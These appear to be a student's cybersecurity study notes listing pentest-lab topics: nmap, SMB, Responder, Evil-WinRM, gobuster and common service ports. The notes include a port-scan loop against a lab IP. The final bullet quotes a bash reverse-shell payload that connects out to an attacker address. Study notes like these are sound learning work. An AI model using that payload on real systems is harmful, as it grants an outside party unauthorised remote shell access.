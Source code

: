 ```yaml
---
title: CyberSec Concepts
author: Mateus Marques
output:
 html_document:
  highlight: tango
urlcolor: magenta
---
```


# Needs research

* OpenSSL. Why [configure like this](https://help.heroku.com/88GYDTB2/how-do-i-configure-openssl-to-allow-the-use-of-legacy-cryptographic-algorithms)?
```bash
for port in $(cat ports9.txt) ; do
  nmap -p $port 10.129.70.15 >> scan.txt
done
grep -i "open" scan.txt
```

* What is LDAP, JNDI, analyze log4shell vulnerability deeply.

* Why `nmap -Pn`, block ping probes.

* NTLMv2. NTHash.

* Responder utility. `responder`.

* `/etc/hosts` details. Why putting `IP   website` to resolve connection?

* Evil-WinRM. [Detailed guide](https://www.hackingarticles.in/a-detailed-guide-on-evil-winrm/). Port 5985, 5896.

* VPN. `openvpn`.

* NMAP.

* `telnet`. Port 23.

* `ftp`. File Transfer Protocol. Port 21.

* SMB. Server Message Block. `samba`, `microsoft-ds`. Port 445, or 139.

* ICMP echo request. `ping`.

* TCP/UDP ports.

* RDP. Remote Desktop Protocol. Port 3389.

* HTTP, HTTPS. `nginx`, `apache`. Port 80.

* MongoDB. No-SQL database. Port 27017, 27018.

* Rsync. `rsync`. Port 873.

* `gobuster`.

* SQL. `mariadb`, `mysql`. Port 3306.

* Where to get better password and directory lists? Search what Kali uses.

* What is the difference between `gobuster` options `vhost` and `dns`?

* What is `netcat` and how does it work?

* DNS servers. Why add arbitrary DNS servers to `/etc/hosts`, such as `8.8.8.8`?

* What the payload `bash -c 'exec bash -i &>/dev/tcp/10.10.14.11/1234 <&1'` does exactly?
